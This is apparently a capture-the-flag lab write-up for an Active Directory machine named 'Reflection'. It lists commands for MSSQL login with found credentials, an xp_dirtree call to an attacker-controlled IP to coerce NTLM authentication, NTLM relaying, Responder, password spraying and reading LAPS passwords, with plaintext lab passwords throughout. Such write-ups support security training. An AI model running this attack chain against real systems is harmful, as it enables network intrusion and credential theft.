# Enumeration
Enumerating the smb shares of machine #3 we find creds:


Using these creds to login to mssql on machine #3 we get other creds:
```
mssqlclient.py web_staging:'Washroom510'@10.10.143.69
```


Now password spraying we find other accounts with same password:


Now doing NTLM Relay attack we get hash for an account:
```
exec xp_dirtree "\\10.8.1.208\share"
```


Now checking if message signing is disabled:
```
nxc smb 10.10.143.69-71 --gen-relay-list relay.txt
```

It is false

So starting an ntlm relay:
```
ntlmrelayx.py -tf targets.txt -socks -smb2support
```

Now we can access shares
```
proxychains smbclient \\\\10.10.197.101\\prod -U REFLECTION/SVC_WEB_STAGING
```

Now get new creds:


Now we can check with mssql on the dc:

We get passwords from the prod database on DC.


Now trying responder:

We get another user.
We cant use nlm relaying as it doesnt work

Now password spraying all passwords we have with the users:
```
nxc smb 10.10.197.101-103 -u users.list -p pass.txt --continue-on-success
```

Now we can use bloodhound:


But checking MachineAccountQuota:


Now we can try to get laps password
```
nxc ldap reflection.vl -u abbie.smith -p CMe1x+nlRaaWEw -M laps
```


With this password we can try to password spray:
```
nxc smb 10.10.197.101-103 -u users.list -p "H447.++h6g5}xi" --local-auth --continue-on-success
```


We got the administrator on ms01